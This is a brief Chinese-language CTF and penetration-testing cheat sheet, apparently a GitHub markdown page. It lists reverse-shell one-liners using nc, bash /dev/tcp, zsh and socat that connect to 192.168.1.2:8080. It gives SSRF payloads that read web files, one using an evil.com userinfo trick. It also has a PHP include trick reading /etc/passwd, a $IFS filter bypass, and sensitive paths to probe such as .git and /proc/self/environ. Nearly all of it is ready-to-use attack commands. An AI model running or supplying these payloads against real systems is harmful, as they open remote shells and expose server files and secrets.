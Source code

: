 ## 反弹shell
```sh
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```
## ssrf常用payload
`admin=1&url=file://www.ichunqiu.com/var/www/html/flag.php`
`file://user@evil.com:80@www.google.com//var/www/html/index.php%23`

## php7 直接崩溃bug
`include(‘php://filter/string.strip_tags/resource=/etc/passwd’)`
## $IFS
空格可以使用$IFS代替

## 敏感文件
robots.txt .git .svn .swp ~ .bak 源码，目录泄露
.git泄露利用EXP:https://github.com/lijiejie/GitHack
进程环境变量: /proc/self/environ 